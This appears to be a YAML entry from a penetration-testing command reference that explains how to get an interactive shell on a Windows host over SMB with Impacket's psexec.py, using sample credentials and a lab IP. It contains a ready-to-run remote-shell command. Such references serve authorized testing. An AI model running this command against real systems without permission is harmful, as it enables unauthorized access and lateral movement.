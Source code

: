 ```yaml
---
title: |
  Get an Interactive Shell on the Windows host
description: |
  Impacket's psexec.py offers psexec like functionality. This will give you an interactive shell on the Windows host.

  Command Reference:

  	Target IP: 10.10.10.1

  	Domain: test.local

  	Username: test

  	Password: Welkom01!
command: |
  python3 psexec.py test.local/test:Welkom01!@10.10.10.1
items:
  - Password
  - Username
services:
  - SMB
OS:
  - Linux
  - Windows
attack_types:
  - Exploitation
references:
  - https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py
  - https://www.sans.org/blog/psexec-python-rocks/
---
```

